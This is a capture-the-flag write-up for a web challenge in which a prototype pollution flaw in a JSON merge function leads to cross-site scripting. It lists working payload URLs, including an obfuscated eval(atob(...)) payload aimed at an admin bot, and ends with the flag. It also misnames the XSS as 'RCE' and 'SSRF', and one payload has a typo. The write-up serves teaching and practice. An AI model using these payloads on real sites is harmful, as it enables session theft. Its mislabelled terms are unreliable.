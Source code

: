 # Kulkan (500 points) - Pentesting

![Alt text](images/image.png)

This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 
![Alt text](images/image-1.png)

This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

Building the first payload to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```

![Alt text](images/image-2.png)

So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x onerrpr=alert(1)>"}}
```

![Alt text](images/image-3.png)

The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":"<img src=x id=yourencodedpayloadwithmaliciouslink onerror=eval(atob(this.id))>"}}
```
![Alt text](images/image-4.png)

There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.

![Alt text](images/image-5.png)

And we got the flag

![Alt text](images/image-6.png)

**FLAG:** EKO{Kulk4n__Quetz4}